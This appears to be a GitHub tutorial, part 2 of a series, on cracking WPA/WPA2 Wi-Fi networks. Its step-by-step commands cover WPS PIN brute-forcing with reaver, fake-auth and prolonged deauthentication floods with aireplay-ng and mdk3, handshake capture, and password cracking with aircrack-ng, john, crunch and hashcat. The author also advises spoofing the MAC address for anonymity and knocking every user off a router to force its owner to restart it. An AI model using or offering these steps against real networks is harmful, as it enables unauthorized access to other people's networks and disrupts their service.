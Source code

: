 # Wifi-Cracking (Part-2)  
 
 #### [ WPA/WPA2 CRACKING]
 ---


This is part-2 on wifi-cracking and in this writeup we will be discussing on WPA/WPA2 networks.

**NOTE: always check your wireless adapter mode is set to managed before connecting to network because you can't connect to network in monitor mode its only used for packet capture purpose and you can change your MAC Address before attack to increase anonmity and to protect your identity**

Most guaranteed attack to crack WPA/WPA2 is to use the tool **reaver** when WPS is enabled but It not works on all routers specially on new ones  it only works against **PBC auth** types  many of you loose hope in the case of routers cracking but keep patience and try to **debug** reaver output.


At first to know WPS enabled routers near you : Run

```bash
root@kali:~# wash -i wlan0

```
select the MAC Adress of target routers and paste after bssid field.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0

```
If you are lucky it will be executed successfully but it will  take sometime to get pin (but if you get error) like this

```bash
[!]WARNING: Failed to associate with  5D:A8:6A:A9:4C:5I (ESSID: CRACKME)

```
If you are getting this error quit the program than simply split the bash screen and use **aireplay-ng** to associate with target to do fake authentication attack with the help of below command.

```bash
root@kali:~# aireplay-ng --fakeauth 100 -a { MAC Address of target router} -h {MAC Address of your wireless card} wlan0

```
> You can get the  MAC Address of your wireless card just by ifconfig wlano (it will be the unspec field)

The above command is doing a fake authentication attack to associate with target and i want a delay of 100 sec between association attempts but wait before you press  enter run your previous command with -A and than run this command.

```bash
root@kali:~# reaver --bssid           --channel -i wlan0 -A

```
(-A) helps to not associate with target you can see all available options with reaver by using **reaver --help**
by running the command you might get this thing in bash :

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A


[+] Assciated with 5D:A8:6A:A9:4C:5I  (ESSID: CRACKME)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)
[+] 0.00% completed @ 2020-05-08 22:17:45 (0 seconds/pin)

```
Our association problem is solved but we still are not able to get pin if you try some debugging with -VVV(Verbose mode ):

```bash
root@kali:~# reaver --bssid  5D:A8:6A:A9:4C:5I --channel 11 -i wlan0 -A -vvv --no-nacks

```
It will brute-force to get pin and may take some time to bypass the router.
Sometimes it's easy to deal WPS things because many people don't change there default pins which are easily crackable while doing this stuff sometimes you will face some routers get locked after some failed attempts  and it make take many hours to unlock or may be some days but we  can't wait for that long to crack it the best hack to deal this problem is deauthenticate all users from that router to a long period of time  and than admin have to restart the router because of the annoying behaviour of router.

```bash
root@kali:~# aireplay-ng --deauth 10000000000000000 -a { MAC Address of router } wlan0

```

The success rate of our deauthentication attack is high but there is always an alternate option **mdk3** it is the tool designed to exploit a number of weaknesses in 802.11 protocol (we can use it to remotely unlock the locked router )

```bash
root@kali:~# mdk3 --help

```
To see all available options and how to use it than simple run

```
root@kali:~# mdk3 a -a { MAC Address of router which is locked } -m

```
it mostly give successfull results on many router after this just run the reaver command to brute-force pin.

```
root@kali:~# reaver --bssid           --channel -i wlan0

```

---



##### If now WPS is disabled or if you tried everything and it doesn't work  you are left out with two more options.

- WORDLIST ATTACKS

- EVIL TWIN ATTACKS


So lets first talk about wordlist attack this is going to work on all WPA/WPA2 networks but it totally depends how strong your  **wordlist** and how quick your **machine** is .Issue with this attack is large wordlist is going to take huge space of your hardisk and if password is very hard to crack it may take 2-3 days or even a week.But don't worry that's why you are here I am going to tell you some efficient ways to do this attack.

So lets deal with first issue that large wordlist are going to take longer time and **aircrack-ng** does not save the progress.

First you will need to capture the  **handshake** file  and  need a wordlist to perform this attack.
You can find many wordlist online and even you can generate your own wordlist if you know some of characters of Password.

```bash
root@kali:~# airodump-ng wlan0

root@kali:~ airodump-ng --channel {channel no. of the selected wireless network} -w {name of captured file} --bssid {bssid no.} {name of wireless network}

```
e.g
```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55  --write handshake.cap wlan0

```

By running the first command get all networks bssid and channel and the run the second command to get handshake but handshake is generated only when the new client is connected to that so are you going to wait that long ? Obviously no run a deauthentication attack to disconnect a client and then when he tries to connect you will get a handshake.

After this,

```bash
root@kali:~# aircrack-ng handshake.cap -w { name of wordlist }

```

After this it will run to get the password but it will take some time and if you get frustrated and quit the program it and it will stop and if you try to run again it will restart. So takeover this we are going to use a classical tool **john the reaper**
and pipe it with **aircrack-ng**

```bash
root@kali:~# john --wordlist= { name of wordlist } --stdout | aircrack-ng -w - -b { MAC Address of target } handshake.cap

```
e.g

```bash
root@kali:~# john --wordlist=crack_wordlist --stdout --session=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```

the above command before the pipe is outputing the wordlist with a session id and we are using the output wordlist to the second command after the pipe So the run command for some action and if you terminate the action you can restore it by the following command.

```bash
root@kali:~# john --restore=upc | aircrack-ng -w - -b 56:13:58:76:5B:55  handshake.cap

```
Now you can use **crunch** to generate wordlist if your familiar to crunch than it's okay otherwise feel free to see the entire manual for **crunch** by using  command *man crunch* command or see it online the general way to generate it is

```bash
root@kali:~# crunch 8 8 -o all.txt
Crunch will now generate the following amount of data 1879443581184 bytes
1792377 MB
1750 GB
1 TB
0 PB
Crunch will now generate the following number of files: 208827064547

```
So what do you think you have that much of space in your hardisk for that wordlist or you just need a  solution to  solve this, you can also combine the **aircrack-ng** with crunch with just omiting -o .

```bash
root@kali:~# crunch 8 8 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you get your job done with crunch please see crunch in details because you if you know some characters and spaces it help you a lot and increase the chance to crack WPA/WPA2 faster.

Let's combine all three concepts **john the reaper**, **crunch** and **aircrack-ng** to increase our cracking efficiency.
crunch  will generate the password jhon the reaper will save and restore the progress and aircrack will do it's cracking part.

```bash
root@kali:~# crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```

Here you got your job done with some perfection and to restore this process

```bash
root@kali:~# crunch 8 8 | john --restore=session1 | aircrack-ng  -b  56:13:58:76:5B:55 -w - handshake.cap

```
---

Using all this methods is okay but you can boost the process if you use your **GPU** because it is designed to carry out repetitive task fasts which means its more efficient than CPU and cracking hashes is a repetitive task.

Condition to do this your system must have a powerful GPU or good graphics card  and we are going to use **hashcat** and you can download it from from [here](https://hashcat.net/hashcat/) and we are using this tool because can't us
aircrack-ng does not allow graphics card in cracking.

**NOTE: Use a WINDOWS machine because mosts GPU's have driver for windows and its heck disturbing to download driver for linux system if you can download it in your linux system you are free to do it and if you are using in WINDOWS first download the driver for your system whatever you have  Nvdia or AMD**


After downloading and extracting hashcat you need to convert your handshake file from .cap extension to .hccapx  extension
which is the extension supported by hashcat you can convert it from [here](https://hashcat.net/cap2hccapx/), (in ESSID field just enter name of the network) after converting download it keep your wordlist and handshake.hccapx file in same directory where you downloaded hashcat.

open your windows terminal

```bash
c:\user\error> cd/
(go to the root directory)

c:\> dir
(to list all files and go to hashcat)



c:\>cd hashcat-3.6.0
c:\hashcat-3.6.0> dir
(you will see 32-bit and 64-bit run which compatible to your device )

c:\hashcat-3.6.0>hashcat64.exe --help
(it will list all possible ways to run it )

c:\hashcat-3.6.0>hashcat64.exe -I
(it will list all possible device CPU AND GPU to perform attack)

c:\hashcat-3.6.0> hashcat.exe -m 2500 -d 1 handshake.hccapx wordlist.txt


```
> (-m 2500 specify which hash your are going to crack -d 1 is use to specify use GPU which listed first when we -I command)
You can use p and r to pause and resume the process you will see how fast it works

Your JOB will be done very fast as compare to CPU.

Lint to [Part-3](https://github.com/noob-atbash/wifi-cracking/blob/master/wifi-crackingP3.md)

**AUTHOR** - [Error](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
